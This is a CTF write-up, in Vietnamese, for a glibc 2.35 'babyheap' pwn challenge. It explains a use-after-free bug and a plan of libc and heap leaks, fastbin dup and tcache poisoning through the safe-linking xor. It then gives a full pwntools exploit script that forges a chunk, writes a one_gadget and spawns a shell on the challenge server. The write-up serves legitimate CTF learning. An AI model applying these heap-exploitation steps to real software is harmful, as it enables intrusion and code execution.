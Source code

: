 Có thể thấy đây là một bài heap mà ta thường hay gặp trong các CTF challenge. Với các hàm tạo ,xem,xóa.

Ta có thể thấy rõ chương trình có lỗi UAF: 
![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/7ce30f06-e3d9-4812-80a0-ec4d8dfd3f8f)


Vì đây là phiên bản LIBC_2.35 nên trong khi ta free một chunk sẽ có thê cơ chế `xor`:
Khi ta free 1 chunk vô tcache chương trình sẽ lấy địa chỉ của chunk trước đó trong danh sách tcahe để ((tcachechunk_address >> 12) ^ ourfreechunk_address)

Nếu đọc trên https://github.com/shellphish/how2heap/tree/master/glibc_2.35 ta có thể tìm thấy được nhiều kỹ thuật để khai  thác đối vơi bản libc này :
Kế hoạch khai thác của mình sẽ là :

+) sử dụng lỗi UAF để lấy địa chỉ libc thừ một chunk trong unsorted bin

+)fastbindup một chunk.

+)Sau đó sử dụng cơ chế `xor` để thực hiệp kỹ thuật heap poisoning tạo ra một FAKECHUNK trỏ đến địa chỉ `key` 

+) sau đó ghi onegadget lên đó và lấy shell

OPtion5 :

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/905761d6-6556-42ba-8243-0f040df713bd)


Script khai thác :
```python
from pwn import *

exe = ELF("./babyheap_patched",checksec=False)
libc = ELF("./libc.so.6",checksec=False)
ld = ELF("./ld-linux-x86-64.so.2",checksec=False)

context.binary = exe

def GDB():
    gdb.attach(p,gdbscript='''
    b*0x401719
    c
    ''')
    input()
if args.REMOTE:
    p = remote("13.212.34.169", 31070)
else:
    p = process([exe.path])
    #GDB()

def add(index,len,name):
    p.sendlineafter(b"Enter your choice: ",b"1")
    p.sendlineafter(b"in the database: ",f"{index}".encode())
    p.sendlineafter(b"Length of that student's name: ",f"{len}".encode())
    p.sendlineafter(b"Enter the name: ",name)
def show(index):
    p.sendlineafter(b"Enter your choice: ",b"2")
    p.sendlineafter(b"Input student ID: ",f"{index}".encode())

def free(index):
    p.sendlineafter(b"Enter your choice: ",b"3")
    p.sendlineafter(b"Input student ID: ",f"{index}".encode())
add(0,0x4f8,b"0")
add(1,0x58,b"1")
free(0)
show(0)
leak = int.from_bytes(p.recv(6),"little")
log.info("[+]leak:"+hex(leak))
libc.address = leak - 0x219ce0
log.info("[+]LIBC BASE:"+hex(libc.address))

for i in range(7+3):
    add(i,0x58,f"{i}".encode())
free(0)
show(0)
heap =int.from_bytes(p.recv(2),"little")<<12
log.info("[+]Heap base:"+hex(heap))

for i in range(1,7):
    free(i)
free(7)
free(8)
free(7)

for i in range(11,11+7):
    add(i,0x58,f"{i}".encode())
payload = p64((heap >>12) ^ (0x4040a0))
add(18,0x58,payload)
add(19,0x58,b"junkchunks")

for i in range(0,7):
    add(i,0x28,f"{i}".encode())
add(0,0x58,b"HHHHH")

'''
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
one= libc.address+0xebcf8
add(2,88,p64(one))

p.sendlineafter(b"Enter your choice: ",b"5")

p.interactive()
```
